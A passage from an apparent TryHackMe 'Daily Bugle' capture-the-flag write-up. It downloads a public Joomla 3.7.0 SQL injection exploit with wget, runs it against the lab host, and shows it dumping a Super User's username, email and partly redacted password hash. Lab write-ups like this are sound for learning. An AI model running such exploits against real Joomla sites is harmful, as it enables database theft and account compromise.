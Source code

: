 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Daily-Bugle/images/a3.png)

**Why it's using `sqlmap`? Let's do this via a python script!**

> Note: I tried to write a python script to do this, but it's way harder than I thought :(

**After poking around in google, I found [a GitHub repository](https://github.com/XiphosResearch/exploits/blob/44bf14da73220467410c2d952c33638281c47954/Joomblah/joomblah.py) that holds lots of exploit, including Joomla 3.7.0 SQL injection.**

I've read through the exploit, and it looks great! Let's `wget` that exploit!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# wget https://raw.githubusercontent.com/XiphosResearch/exploits/44bf14da73220467410c2d952c33638281c47954/Joomblah/joomblah.py
```

**Let's run that exploit!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# python2 joomblah.py http://daily-bugle.thm
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/{Redacted}', '', '']
  -  Extracting sessions from fb9j5_session
```
